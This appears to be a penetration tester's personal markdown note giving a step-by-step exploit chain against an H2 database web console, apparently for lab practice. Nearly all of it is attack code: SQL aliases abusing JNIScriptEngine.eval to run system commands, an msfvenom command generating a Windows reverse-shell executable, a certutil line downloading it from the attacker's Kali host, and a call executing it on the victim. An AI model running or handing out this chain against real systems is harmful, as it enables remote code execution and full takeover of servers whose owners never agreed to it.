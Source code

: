 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.exploit-db.com/exploits/49384

1 by 1, put in each SQL command into the text box and hit run.

Test to make sure RCE works with whoami:
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```

![[Pasted image 20220404143802.png]]

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe > reverse64.exe
```

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://$KALI/reverse64.exe C:\\Users\\$USER\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```

![[rlwrap]]

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Users\\tony\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
